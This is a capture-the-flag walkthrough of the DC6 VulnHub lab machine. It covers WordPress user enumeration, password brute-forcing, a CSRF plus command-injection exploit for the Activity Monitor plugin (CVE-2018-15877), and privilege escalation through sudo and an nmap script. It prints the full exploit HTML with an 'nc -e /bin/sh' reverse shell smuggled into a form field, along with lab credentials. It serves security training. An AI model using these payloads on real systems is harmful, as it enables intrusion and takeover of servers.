<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/dc-6,315/">DC6</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/DCAU7/">DCAU</a></h4>

***

## Nmap



Only two ports are open. Let's just start with the website.

***

It's just another wordpress website. Let's see what we can find out from `wpscan` but before that edit your `/etc/hosts` file to add the following line:

```bash
<IP-of-the-machine>      wordy
```

This way `wpscan` won't mess up anything. I ran the following command:

```bash
➜ wpscan --url http://wordy -e p --no-banner --no-update
```

and I found some users



and found that the theme that was used is outdated,



But wasn't vulnerable to any kind of attack. Since I can't see any way around I decided to bruteforce users for a password. I started with `sarah` and got nothing.



and then `graham` and got nothing



then finally when I brutefroced the password for `mark` account I got a hit



We can use the password `helpdesk01` to login to mark's wordpress account.

***

After loggin into the dashboard I was thinking of getting a reverse shell using theme/plugin editing but there wasn't any option for that. The only new option I saw was `activity monitor`.



I looked around a bit and then just googled `wordpress activity monitor exploit`



The very first URL was the exploit I was looking for i.e [RCE via Activity monitor](https://github.com/aas-n/CVE/tree/master/CVE-2018-15877)

I copy pasted the exploit in a file and opened in a browser to send the requests but it didn't work.

I had to edit the exploit because for some reason the URL encoded payload didn't work so I just added the `google.fr| nc -e /bin/sh 192.168.43.70 4444` without encoding.

```html
<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: Lyderic LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -e /bin/sh 192.168.43.70 4444" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
and it worked. I spwaned the TTY shell using

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```



***

I first visited the `/home` diretory and then realised that I have a password for `mark` so I tried to `su mark` but it didn't worked but I found something better in mark's home directory.


Now we can use the `su` command to become `graham`.



***

Let's enumerate the system using `Enumeration` script. I started python http server on my system and wget the file.



Meh....the script didn't found anything interesting. Will have to do a manual look around.

In the `jens` home directory I found a script named `backups.sh`. I tried running it like `./backups.sh` but got error saying `permission denied`. That's when I decided to check the sudo rights.



This mean I can run this script but not by doing `./backups.sh` but using the sudo right i.e `sudo -u jens ./backups.sh`.



This mean we can just edit this file to get a shell.

***

I couldn't open the `backups.sh` file in nano since we were still depending on the shell we spwaned after getting the reverse shell.

I used the graham's creds i.e `graham: GSo7isUM1D4` to login with SSH.

***

I added a line in the end of the file to get us a shell.



This way I got a shell but this wasn't the root shell since that script was executed by user `jens` so we have became `jens` from `graham`.



The first thing I did was check the `jens` sudo right.



We can run nmap as a `root` :)

Just make a script in the tmp directory
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
```
and now we can run this script with nmap which will give us a shell.



***

Thanks to [@DCAU7](https://twitter.com/DCAU7) for making an awesome machine.

